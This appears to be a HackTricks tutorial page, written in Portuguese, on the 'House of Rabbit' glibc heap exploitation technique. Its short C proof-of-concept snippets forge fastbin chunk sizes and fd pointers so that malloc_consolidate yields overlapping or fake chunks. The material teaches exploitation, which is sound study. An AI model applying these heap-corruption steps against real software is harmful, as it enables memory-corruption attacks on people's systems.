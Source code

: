 # House of Rabbit

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Requisitos

1. **Capacidade de modificar o ponteiro fd do fast bin ou tamanho**: Isso significa que você pode alterar o ponteiro para frente de um chunk no fastbin ou seu tamanho.
2. **Capacidade de acionar `malloc_consolidate`**: Isso pode ser feito alocando um chunk grande ou mesclando o chunk superior, o que força o heap a consolidar chunks.

### Objetivos

1. **Criar chunks sobrepostos**: Para ter um chunk sobreposto a outro, permitindo mais manipulações do heap.
2. **Forjar chunks falsos**: Para enganar o alocador fazendo-o tratar um chunk falso como um chunk legítimo durante as operações do heap.

## Etapas do ataque

### POC 1: Modificar o tamanho de um chunk do fast bin

**Objetivo**: Criar um chunk sobreposto manipulando o tamanho de um chunk do fastbin.

* **Etapa 1: Alocar Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Alocamos dois chunks de 0x40 bytes cada. Esses chunks serão colocados na lista de fast bin uma vez liberados.

* **Passo 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Nós liberamos ambos os chunks, adicionando-os à lista fastbin.

* **Passo 3: Modificar o Tamanho do Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Mudamos os metadados de tamanho de `chunk1` para 0xa1. Este é um passo crucial para enganar o alocador durante a consolidação.

* **Passo 4: Acionar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar um grande bloco aciona a função `malloc_consolidate`, mesclando pequenos blocos no fast bin. O tamanho manipulado de `chunk1` faz com que ele se sobreponha a `chunk2`.

Após a consolidação, `chunk1` se sobrepõe a `chunk2`, permitindo uma exploração adicional.

### POC 2: Modificar o ponteiro `fd`

**Objetivo**: Criar um bloco falso manipulando o ponteiro `fd` do fast bin.

* **Passo 1: Alocar Blocos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicação**: Alocamos dois chunks, um menor e um maior, para preparar o heap para o chunk falso.

* **Passo 2: Criar chunk falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Escrevemos metadados de chunk falsos em `chunk2` para simular chunks menores.

* **Passo 3: Liberar `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicação**: Liberamos `chunk1`, adicionando-o à lista fastbin.

* **Passo 4: Modificar `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicação**: Mudamos o ponteiro para frente (`fd`) do `chunk1` para apontar para nosso chunk falso dentro do `chunk2`.

* **Passo 5: Acionar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar um grande bloco novamente aciona `malloc_consolidate`, que processa o bloco falso.

O bloco falso se torna parte da lista fastbin, tornando-se um bloco legítimo para exploração adicional.

### Resumo

A técnica **House of Rabbit** envolve modificar o tamanho de um bloco fast bin para criar blocos sobrepostos ou manipular o ponteiro `fd` para criar blocos falsos. Isso permite que atacantes forjem blocos legítimos na heap, possibilitando várias formas de exploração. Compreender e praticar esses passos aprimorará suas habilidades de exploração de heap.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
